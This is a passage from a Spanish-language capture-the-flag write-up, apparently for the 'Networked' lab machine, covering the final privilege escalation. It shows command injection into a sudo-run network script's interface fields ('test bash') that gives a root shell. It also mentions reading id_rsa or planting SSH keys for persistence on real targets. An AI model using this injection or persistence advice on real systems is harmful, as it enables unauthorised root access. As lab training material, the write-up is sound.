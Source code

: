 Por ello se podria esperar otro comand injection por lo mal sanitizado que esta, validando esta infmroación.
~~~bash
[guly@networked tmp]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
interface PROXY_METHOD:
testa bash
interface BROWSER_ONLY:
bash
interface BOOTPROTO:
bash
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
~~~
Se obtuvo acceso a una root sesion

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora que ya se tiene acceso a root, solo es cosa de leer la root flag, o si fuera un caso real, leer el id_rsa o mantener persistencia de alguna otra forma, como crear una llave ssh publica o como se desee.
~~~bash
[root@networked network-scripts]
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

